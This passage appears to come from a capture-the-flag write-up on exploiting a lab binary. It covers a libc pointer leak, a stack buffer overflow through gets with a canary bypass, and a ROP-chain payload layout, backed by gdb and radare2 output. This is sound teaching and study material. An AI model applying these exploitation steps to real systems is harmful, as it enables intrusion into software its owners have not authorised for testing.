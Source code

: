 The offset of the leaked libc pointer is:
{% highlight shell-session %}
offset = libc_pointer - base_libc
       = 0x7f3d1c0df9e0 - 0x7f3d1bd1f000
       = 3934688
{% endhighlight %}

## Stack buffer overflow

The main menu is vulnerable to buffer overflow. It is possible to insert
arbitrary values in the choice selection to write passed the buffer. Let's
break right before the call to `gets`:
{% highlight shell-session %}
gef➤ b *0x401810
[snip]
gef➤ i r
[snip]
rdi     0x00007fffeb9b79a0
[snip]
gef➤  i frame
Stack level 0, frame at 0x7fffeb9b79e0:
 rip = 0x401810; saved rip = 0x401987
 called by frame at 0x7fffeb9b7a00
 Arglist at 0x7fffeb9b7988, args: 
 Locals at 0x7fffeb9b7988, Previous frame's sp is 0x7fffeb9b79e0
 Saved registers:
  rbp at 0x7fffeb9b79d0, rip at 0x7fffeb9b79d8
gef➤  x/12xg $rsp
0x7fffeb9b7990: 0x3331623138313231  0x0000000000000000
0x7fffeb9b79a0: 0x0000000000000000  0x0000000000000000
0x7fffeb9b79b0: 0x0000000000000000  0x0000000000000000
0x7fffeb9b79c0: 0x0000000000400a10  0xfe7b70ecef673a00
0x7fffeb9b79d0: 0x00007fff4359fd30  0x0000000000401987
{% endhighlight %}

Saved `rip` is located at `0x7fffeb9b79d8`, the canary at `0x7fffeb9b79c8` and
the start of our buffer at `0x7fffeb9b79a0`. This gives us the following
payload:

* 40 bytes of padding, zeros are good candidates
* canary
* 8 bytes of padding
* ROP chain (the same as the one used in the previous challenge)

When that payload is passed as a choice to the main menu, the program will
reprint the menu and ask again for a choice. At that moment the option 5 `Exit`
is chosen to exit the function and return on the ROP chain. As shown in the
jumping table show above, here is the instrcution that are executed when the
`Exit` option is chosen: 
{% highlight ca65 %}
[0x00400a10]> pd @0x401909
            0x00401909      90             nop
            0x0040190a      488b45f8       mov rax, qword [rbp - 8]
            0x0040190e      644833042528.  xor rax, qword fs:[0x28]
        ,=< 0x00401917      7405           je 0x40191e
        |   0x00401919      e892f0ffff     call sym.imp.__stack_chk_fail
    ; JMP XREF from 0x00401917 (unk)
        `-> 0x0040191e      c9             leave
            0x0040191f      c3             ret
{% endhighlight %}


[perm]: https://docs.python.org/2/library/itertools.html#itertools.permutations